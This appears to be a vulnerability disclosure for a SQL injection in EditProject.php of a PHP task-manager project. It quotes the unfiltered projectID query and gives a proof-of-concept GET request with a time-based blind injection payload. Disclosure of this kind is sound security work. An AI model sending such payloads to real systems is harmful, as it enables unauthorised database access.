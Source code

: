 # task-manager-in-php-sql1

https://code-projects.org/task-manager-in-php-with-source-code/

## NAME OF AFFECTED PRODUCT(S)

**task-manager-in-php**

## Vendor Homepage

https://code-projects.org/task-manager-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

EditProject.php

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

EditProject.php file, SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### EditProject.php

source code，the    projectID parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```php
$sql = "SELECT projectName, projectID, projectPrio FROM project WHERE projectID = '".$_GET['projectID']."'";
$edit = $conn -> query($sql);
$edit = $edit -> fetch_assoc();
```

![image-20240925103238931](C:\Users\13756\AppData\Roaming\Typora\typora-user-images\image-20240925103238931.png)

## **Vulnerability recurrence**

### **POC**

```
GET /EditProject.php?edit=1&projectID=1'+AND+(SELECT+3784+FROM+(SELECT(SLEEP(5)))ZvCJ)+AND+'qQab'='qQab HTTP/1.1
Host: 127.0.0.1
Content-Length: 0
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

![image-20240925103355243](C:\Users\13756\AppData\Roaming\Typora\typora-user-images\image-20240925103355243.png)

